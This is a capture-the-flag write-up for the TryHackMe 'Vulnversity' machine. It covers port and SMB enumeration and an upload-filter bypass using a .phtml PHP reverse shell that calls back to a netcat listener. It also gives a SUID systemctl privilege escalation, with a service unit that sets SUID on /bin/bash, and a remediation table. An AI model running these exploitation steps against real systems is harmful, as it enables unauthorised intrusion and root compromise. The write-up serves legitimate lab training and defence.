










# Vulnversity — TryHackMe Writeup

**Platform:** TryHackMe | **Difficulty:** Easy | **Target IP:** 10.65.129.80 | **Attacker IP:** 192.168.131.193

## Machine info


## Summary

**Vulnversity** is a TryHackMe machine built around a vulnerable web application whose upload form only filters file extensions against a denylist, bypassed with a .phtml file to achieve arbitrary PHP execution on the server. Enumerating the resulting shell then turns up an unusual SUID bit on systemctl, which is abused to grant /bin/bash the SUID bit and obtain a privileged shell.

**Attack chain:** Reconnaissance → Extension Filter Bypass .phtml → RCE as www-data → SUID systemctl Abuse → Root

## 1. Reconnaissance

An `nmap` full port scan revealed FTP, SSH, SMB, a Squid proxy, and an Apache web server hosting "Vuln University" on an unusual port, 3333:

```
nmap -p- -sS -sV -sC -vvv -oN scan.txt 10.65.129.80

PORT     STATE SERVICE     REASON         VERSION
21/tcp   open  ftp         syn-ack ttl 62 vsftpd 3.0.5
22/tcp   open  ssh         syn-ack ttl 62 OpenSSH 8.2p1 Ubuntu 4ubuntu0.13 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 81:86:e0:63:68:bf:4e:17:4a:39:ae:1f:69:51:46:ba (RSA)
| ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABgQDOy0De86g5lCmhvxlAjBytURffKRPlmeGMYy+aCbf+EtC67DS3EGuvQA/7D8H6YLzXNLvqxt8oYw/xsF2/oRUsN1eVl3E+f8Xnxm8EofK3jcXobaLLT0A638FElL5EGLhXNF7nB645NNqdtH4djdYMtr+ZTgZsw2emqrhxDFSBjO9I9OHetwYnoZdFqMhZC1wSY0x/Yxx0uNYOcVL0etGkZK1ln6iS870sWeulfXafovkM9or4sHJoukA6XsqGxevUhNca2KPKjGr2b2gRp6FtlGgkTP1ALHrcyJs56PqCA/ZJPSclWR7YutlLK1jPJlNrpnHGx5SoqQAnC0jmAeR+MzlPcuQPaOmik7F9uKMm1Yj1s9t5tfTIkpjzGZWXxPd5LxpaTWbIrr/Oa9FVDfpC1UnY7mIil3kgARPWIKTpB0iObN6uvOXXgMz2ft8nCQh5WXnIIyOMi+6WWiGCrPZ+orX08TquF4s9rNMdVxnVLRhpyzpCpBJyxu3pYUh5HRs=
|   256 31:14:e9:e0:24:3a:1d:c8:d5:2d:01:eb:8d:a6:cb:e0 (ECDSA)
| ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBPo/epslh80eddA2SM9KDHJUynwVX3IOuqVkK3K9qc0TBIyIUVU8NBoN9HhLVQ8gA6EWrOSM7iHjpZ7ZWRQ7p18=
|   256 0a:98:14:f0:6d:f6:6f:60:cf:80:70:09:74:73:5b:86 (ED25519)
|_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAINHP3llr5KyWa5wIxRWN7BWksraRfe8aSRoXJuy4SNLf
139/tcp  open  netbios-ssn syn-ack ttl 62 Samba smbd 4
445/tcp  open  netbios-ssn syn-ack ttl 62 Samba smbd 4
3128/tcp open  http-proxy  syn-ack ttl 62 Squid http proxy 4.10
|_http-title: ERROR: The requested URL could not be retrieved
|_http-server-header: squid/4.10
3333/tcp open  http        syn-ack ttl 62 Apache httpd 2.4.41 ((Ubuntu))
|_http-server-header: Apache/2.4.41 (Ubuntu)
| http-methods: 
|_  Supported Methods: GET POST OPTIONS HEAD
|_http-title: Vuln University
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel

Host script results:
| p2p-conficker: 
|   Checking for Conficker.C or higher...
|   Check 1 (port 10294/tcp): CLEAN (Couldn't establish connection (ERROR))
|   Check 2 (port 13187/tcp): CLEAN (Couldn't establish connection (ERROR))
|   Check 3 (port 45381/udp): CLEAN (Couldn't receive bytes: ERROR)
|   Check 4 (port 44118/udp): CLEAN (Couldn't receive bytes: ERROR)
|_  0/4 checks are positive: Host is CLEAN or ports are blocked
|_clock-skew: -1s
| nbstat: NetBIOS name: IP-10-65-129-80, NetBIOS user: <unknown>, NetBIOS MAC: <unknown> (unknown)
| Names:
|   IP-10-65-129-80<00>  Flags: <unique><active>
|   IP-10-65-129-80<03>  Flags: <unique><active>
|   IP-10-65-129-80<20>  Flags: <unique><active>
|   \x01\x02__MSBROWSE__\x02<01>  Flags: <group><active>
|   WORKGROUP<00>        Flags: <group><active>
|   WORKGROUP<1d>        Flags: <unique><active>
|   WORKGROUP<1e>        Flags: <group><active>
| Statistics:
|   00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00
|   00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00
|_  00 00 00 00 00 00 00 00 00 00 00 00 00 00
| smb2-time: 
|   date: 2026-11-25T11:19:52
|_  start_date: N/A
| smb2-security-mode: 
|   3.1.1: 
|_    Message signing enabled but not required
```

Browsing to the site on port 3333:


An `enum4linux` null session enumerated the workgroup and, via RID cycling, two local users:

```
enum4linux 10.65.129.80

[+] Got domain/workgroup name: WORKGROUP

[+] Server 10.65.129.80 allows sessions using username '', password ''

...

[+] Enumerating users using SID S-1-22-1 and logon username '', password ''

S-1-22-1-1000 Unix User\bill (Local User)
S-1-22-1-1001 Unix User\ubuntu (Local User)
```

`gobuster` against the web root uncovered an `/internal` directory:

```
gobuster dir -u http://10.65.129.80:3333/ -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -x txt,php

images               (Status: 301) [Size: 320] [--> http://10.65.129.80:3333/images/]
css                  (Status: 301) [Size: 317] [--> http://10.65.129.80:3333/css/]
js                   (Status: 301) [Size: 316] [--> http://10.65.129.80:3333/js/]
fonts                (Status: 301) [Size: 319] [--> http://10.65.129.80:3333/fonts/]
internal             (Status: 301) [Size: 322] [--> http://10.65.129.80:3333/internal/]
```

Enumerating further inside `/internal` revealed an upload form `index.php` and its `uploads` directory:

```
gobuster dir -u http://10.65.129.80:3333/internal -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -x txt,php

index.php            (Status: 200) [Size: 525]
uploads              (Status: 301) [Size: 330] [--> http://10.65.129.80:3333/internal/uploads/]
css                  (Status: 301) [Size: 326] [--> http://10.65.129.80:3333/internal/css/]
```

## 2. Extension Filter Bypass — Remote Code Execution as www-data

The `/internal/index.php` endpoint serves a file upload form:



Fuzzing the upload's file extension with Burp Intruder showed every payload returning HTTP 200, but `.phtml` stood out with a distinctly shorter response length — 760 bytes against 773-774 bytes for the rejected extensions:



The PentestMonkey PHP reverse shell was uploaded as `revshell.phtml`:









With a netcat listener on 192.168.131.193:4444 ready, requesting `revshell.phtml` directly triggers the payload, catching a reverse shell as `www-data`:



The shell is stabilized:

```
script /dev/null -c bash
Ctrl+Z
stty raw -echo; fg
export TERM=xterm
export SHELL=bash
```



## 3. Privilege Escalation via SUID systemctl

Enumerating SUID binaries:

```
find / -perm -4000 2>/dev/null

/usr/bin/newuidmap
/usr/bin/chfn
/usr/bin/newgidmap
/usr/bin/sudo
/usr/bin/chsh
/usr/bin/passwd
/usr/bin/pkexec
/usr/bin/newgrp
/usr/bin/gpasswd
/usr/bin/at
/usr/lib/snapd/snap-confine
/usr/lib/policykit-1/polkit-agent-helper-1
/usr/lib/openssh/ssh-keysign
/usr/lib/eject/dmcrypt-get-device
/usr/lib/dbus-1.0/dbus-daemon-launch-helper
/usr/lib/x86_64-linux-gnu/lxc/lxc-user-nic
/bin/su
/bin/mount
/bin/umount
/bin/systemctl
/bin/fusermount
/snap/snapd/24505/usr/lib/snapd/snap-confine
/snap/core20/2582/usr/bin/chfn
/snap/core20/2582/usr/bin/chsh
/snap/core20/2582/usr/bin/gpasswd
/snap/core20/2582/usr/bin/mount
/snap/core20/2582/usr/bin/newgrp
/snap/core20/2582/usr/bin/passwd
/snap/core20/2582/usr/bin/su
/snap/core20/2582/usr/bin/sudo
/snap/core20/2582/usr/bin/umount
/snap/core20/2582/usr/lib/dbus-1.0/dbus-daemon-launch-helper
/snap/core20/2582/usr/lib/openssh/ssh-keysign
/sbin/mount.cifs
```

Among the standard Ubuntu SUID binaries, `/bin/systemctl` stood out as unusual.

A temporary `.service` unit is created with a `oneshot` action that sets the SUID bit on `/bin/bash`:

```
echo '[Service]
Type=oneshot
ExecStart=/bin/sh -c "chmod +s /bin/bash"
[Install]
WantedBy=multi-user.target' >/tmp/pwned.service
```

The unit is linked so systemd picks it up:

```
systemctl link /tmp/pwned.service
Created symlink /etc/systemd/system/pwned.service -> /tmp/pwned.service.
```

Enabling and starting it causes the privileged systemd instance to run it as root:

```
systemctl enable --now /tmp/pwned.service
Created symlink /etc/systemd/system/multi-user.target.wants/pwned.service -> /tmp/pwned.service.
```

Invoking bash with `-p` retains the inherited root privileges:





## Root Cause & Remediation

| Issue | Fix |
|---|---|
| Upload form only validates the file extension against a denylist, allowing `.phtml` to execute as PHP | Validate file content/MIME type server-side, use an allowlist of safe extensions, and disable script execution in the uploads directory |
| `systemctl` has the SUID bit set, letting any local user trigger privileged systemd actions | Remove the SUID bit from `systemctl`; it should never carry it by default |
